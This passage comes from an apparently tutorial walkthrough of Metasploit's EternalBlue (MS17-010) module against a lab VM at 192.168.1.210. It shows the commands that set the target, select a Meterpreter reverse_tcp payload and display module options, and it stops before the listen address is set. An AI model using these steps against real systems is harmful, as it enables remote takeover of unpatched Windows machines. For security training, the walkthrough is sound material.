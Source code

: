 From the output, we know that the target address(RHOST) has not been set. Since
the address of target VM is 192.168.1.210, run:

```noghighlight
msf exploit(ms17_010_eternalblue) > set RHOST 192.168.1.210
RHOST => 192.168.1.210
```

To perform the exploit, Metasploit also needs a payload. The complete list of payloads
can be found by using command `show payloads`. If no payload is designated, a
default payload will be used. Here, I will manually set a payload:

```nohighlight
msf exploit(ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
```

The Meterpreter in reverse tcp is a very powerful tool during an exploitation.
After setting the payload, run `show options` again, the result will become:

```nohighlight
msf exploit(ms17_010_eternalblue) > show options

Module options (exploit/windows/smb/ms17_010_eternalblue):

   Name                Current Setting  Required  Description
   ----                ---------------  --------  -----------
   GroomAllocations    12               yes       Initial number of times to groom the kernel pool.
   GroomDelta          5                yes       The amount to increase the groom count by per try.
   MaxExploitAttempts  3                yes       The number of times to retry the exploit.
   ProcessName         spoolsv.exe      yes       Process to inject payload into.
   RHOST               192.168.1.210    yes       The target address
   RPORT               445              yes       The target port (TCP)
   VerifyArch          true             yes       Check if remote architecture matches exploit Target.
   VerifyTarget        true             yes       Check if remote OS matches exploit Target.


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST                      yes       The listen address
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows 7 and Server 2008 R2 (x64) All Service Packs
```
